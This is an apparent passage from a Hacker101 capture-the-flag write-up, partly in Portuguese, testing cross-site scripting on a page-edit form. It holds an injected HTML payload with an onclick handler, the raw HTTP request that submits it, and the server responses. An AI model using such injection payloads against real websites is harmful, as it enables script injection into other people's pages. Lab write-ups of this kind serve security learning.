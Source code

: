 ```HTTP
        <h1>title</h1>
<form src='javascrubbed:alert(1)'>
    </body>
</html>
```

3. Payload: `<button onclick=alert(1)>click</button>`
```HTTP
POST /page/edit/1 HTTP/1.1
Accept: */*
Accept-Encoding: gzip, deflate
Connection: keep-alive
Content-Length: 72
Content-Type: application/x-www-form-urlencoded; charset=utf-8
Host: 9940c6abb8ba1a5fdb4cf8e5d48cdddc.ctf.hacker101.com
User-Agent: HTTPie/3.2.4

title=title&body=%3Cbutton+onclick%3Dalert%281%29%3Eclick%3C%2Fbutton%3E


HTTP/1.1 302 FOUND
Connection: keep-alive
Content-Length: 201
Content-Type: text/html; charset=utf-8
Date: Mon, 04 Aug 2025 00:01:50 GMT
Location: /page/1
Server: openresty/1.27.1.2

<!doctype html>
<html lang=en>
<title>Redirecting...</title>
<h1>Redirecting...</h1>
<p>You should be redirected automatically to the target URL: <a href="/page/1">/page/1</a>. If not, click the link.
```

**Resultado**
```HTTP
http -v GET "https://9940c6abb8ba1a5fdb4cf8e5d48cdddc.ctf.hacker101.com/page/1"
GET /page/1 HTTP/1.1
Accept: */*
Accept-Encoding: gzip, deflate
Connection: keep-alive
Host: 9940c6abb8ba1a5fdb4cf8e5d48cdddc.ctf.hacker101.com
User-Agent: HTTPie/3.2.4



HTTP/1.1 200 OK
Connection: keep-alive
Content-Length: 350
Content-Type: text/html; charset=utf-8
Date: Mon, 04 Aug 2025 00:03:09 GMT
Server: openresty/1.27.1.2

<!doctype html>
<html>
    <head>
        <title>title</title>
    </head>
    <body>
        <a href="../">&lt;-- Go Home</a><br>
        <a href="edit/1">Edit this page</a>
        <h1>title</h1>
```